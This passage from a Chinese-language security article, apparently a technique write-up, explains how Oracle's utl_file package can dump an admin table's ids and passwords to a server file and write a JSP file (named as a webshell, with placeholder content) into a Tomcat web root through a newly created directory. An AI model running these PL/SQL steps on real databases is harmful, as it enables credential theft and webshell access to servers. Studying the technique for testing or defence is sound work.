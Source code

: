 导出数据到文件：

```
declare
    frw   utl_file.file_type;
    begin
        frw:=utl_file.fopen('CUX_LOG_DIR','emp.txt','w');
        for rec in (select * from admin) loop
            utl_file.put_line(frw,rec.id||','||rec.password);
        end loop;
        utl_file.fclose(frw);
    end;
/

```

效果图： ￼![enter image description here](http://drops.javaweb.org/uploads/images/269ef0894d1bc7d52d93a54941fa182c7411965f.jpg)

##### GetShell

之前的各种Oracle文章似乎都提过怎样去getshell，其实方法倒是有的。但是在Java里面你要想拿到WEB的根路径比那啥还难。但是PHP什么的就不一样了，PHP里面爆个路径完全是家常便饭。因为数据库对开发语言的无关系，所以或许我们在某些场合下以下的getshell方式也是挺不错的。

在有Oracle连接权限没有webshell时候通过utl_file获取shell

（当然用户必须的具有创建DIRECTORY的权限）:

￼![enter image description here](http://drops.javaweb.org/uploads/images/ebba60ce934a4ba277f0ec2914929b0bf3119517.jpg)

执行：

```
create or replace directory getshell_dir as 'E:/soft/apache-tomcat-7.0.37/webapps/SqlInjection/';

```

当然了as后面跟的肯定是你的WEB路径。

执行以下SQL语句：

创建目录：

```
create or replace directory getshell_dir as 'E:/soft/apache-tomcat-7.0.37/webapps/SqlInjection/';

```

写入shell到指定目录：注意directory在这里一定要大写:

```
declare
    frw   utl_file.file_type;
    begin
        frw:=utl_file.fopen('GETSHELL_DIR','yzmm.jsp','w');
        utl_file.put_line(frw,'hello world.');
        utl_file.fclose(frw);
    end;
/

```
